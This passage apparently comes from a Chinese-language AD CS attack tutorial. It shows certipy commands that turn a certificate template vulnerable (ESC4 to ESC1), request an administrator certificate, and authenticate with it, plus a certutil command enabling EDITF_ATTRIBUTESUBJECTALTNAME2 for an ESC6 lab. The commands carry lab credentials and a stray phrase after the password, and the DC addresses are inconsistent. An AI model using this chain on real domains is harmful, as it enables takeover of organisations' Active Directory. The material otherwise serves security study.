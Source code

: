 将其修改为 esc1

```bash
certipy template -username qxn@penson.org -password Penson@2016 永遠的神 -template PensonESC4 -dc-ip 192.168.142.21 -save-old
```

[![](assets/1708508972-7cb35dc44df42217367cb3e694bf0b0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170432-0f8f45b4-cfcf-1.png)

然后用 esc1 的方式去请求证书

```bash
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC4 -upn administrator@penson.org
```

[![](assets/1708508972-d020c900ce8fa7ab9abdfb75e818542f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170451-1aecd21e-cfcf-1.png)

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[![](assets/1708508972-6913b4727b8027aa86b312d23403b03c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170500-2055cd3c-cfcf-1.png)

# ESC6

ESC6 是 CA 指定 EDITF\_ATTRIBUTESUBJECTALTNAME2 标志的时候。无论证书模板如何配置，此标志都允许登记者在所有证书上指定任意 SAN。该攻击与 ESC1 相同。

## 环境搭建

启用 EDITF\_ATTRIBUTESUBJECALTNAME2

```bash
certutil –setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```
